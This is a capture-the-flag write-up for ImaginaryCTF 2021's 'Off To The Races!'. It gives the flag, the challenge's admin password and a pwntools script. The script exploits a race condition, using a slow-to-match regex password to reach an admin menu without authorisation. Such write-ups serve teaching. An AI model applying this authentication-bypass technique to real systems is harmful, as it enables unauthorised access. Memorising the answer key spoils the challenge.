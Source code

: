 # ImaginaryCTF 2021: Off To The Races!

![date](https://img.shields.io/badge/date-28.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![misc category](https://img.shields.io/badge/category-misc-lightgrey.svg) ![score](https://img.shields.io/badge/score-275-blue.svg) ![solves](https://img.shields.io/badge/solves-39-brightgreen.svg)

## Description

They say that gambling leads to regrets, but we'll see. This online portal lets you bet on horse races, and if you can guess the admin password, you can collect all the money people lose, too. Maybe you'll collect enough to buy the flag?

## Attached files

- [races.py](https://imaginaryctf.org/r/D1DB-races.py)

## Summary

To acquire the flag we need to exploit race condition existing in the program, we will be able to use admin's menu while not being admin both of which are needed to buy a flag.

## Flag

``` ictf{regrets_may_be_the_plural_of_regex_but_ive_no_regrets_from_betting_on_a_sure_thing} ```

## Detailed solution

The program keeps track of how much money admin has, it starts at 0 and we need it to be at least 100 to buy the flag. 

It is very easy to do and does not require any exploits. We can simply bet 100 currency on 3 different horses, then login as admin and pick a winner.
This way whichever horse gets selected, admin account will have 100 currency.

We can do this with simple script

```
#!/bin/python

from pwn import *

io = remote('chal.imaginaryctf.org', 42016)

p = log.progress("Status:")

p.status("Placing bets")
io.recvuntil('>>>')
io.sendline('1')                           # place bet

io.recvuntil('bet on?')
io.sendline('A')                           # horse's name

io.recvuntil('to bet?')
io.sendline('100')                         # how much money

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('B')

io.recvuntil('to bet?')
io.sendline('100')

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('C')

io.recvuntil('to bet?')
io.sendline('100')


p.status("Logging in as admin")
io.recvuntil('>>>')

io.sendline('2')                           # login as admin
io.recvuntil('logout):')

io.sendline('ju5tnEvEEvErl05E')            # passwd


p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')                           # pick winner

io.interactive()
```

If we would check the money now we would see, that we really have the 100 currency.

Admin's password is checked using this regex

``` rx = re.compile(r'ju(5)tn((([E3e])(v\4))+\4\5)+rl0\1\4') ```

which would accept different passwords too, but I will simplify it to

``` 'ju5tn' + 'EvEEvE' * N + 'rl05E' ```

Now we need to somehow get into admin's menu while not being an admin.
It can be achieved thanks to a race condition existing when checking the password.

```
def login():
    pwd = input("Enter admin password (empty to logout): ")
    if len(pwd) == 0:
        print("Logging out...")
        admin = 0
        return
    print("Validating...")
    Process(None, checkPass, None, args=(pwd,)).start()
    time.sleep(2)
    
def checkPass(pwd):
    valid = rx.match(pwd)
    if valid:
        print("Login success!")
        print("Redirecting...")
        admin.value = 1
    else:
        print("Login failure!")
        print("Redirecting...")
        admin.value = 0
```

We can see that password is checked on another thread, and thread displaying menus is just waiting 2 seconds to make sure password is already checked. 
We will exploit that by sending a password that takes long time to get verified, but also is wrong. 
This way the main thread has enough time to display admin's menu for us while password checking thread logs us out.
We now have access to admin commands while not being admin.

All of this can be achieved by modifying our script:
```
...
p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')


p.status('Logging out')
io.recvuntil('>>>')
io.sendline('4')

io.recvuntil('logout):')
io.sendline(
        'ju5tn' +
        'EvEEvE' * 16 +
        'Rl05E')


p.status('Buying flag /o/')
io.recvuntil('Redirecting...')
io.sendline('3')

io.interactive()
```

We need to send ``` EvEEvE ``` to the server 16 times for the password to need 2 seconds to get checked, this number will vary depending on system performance.
To fail password checking we send ``` Rl05E ``` with **capital** R at the end of the password.

Now we just can wait for password checking thread to log us out and acquire the flag.
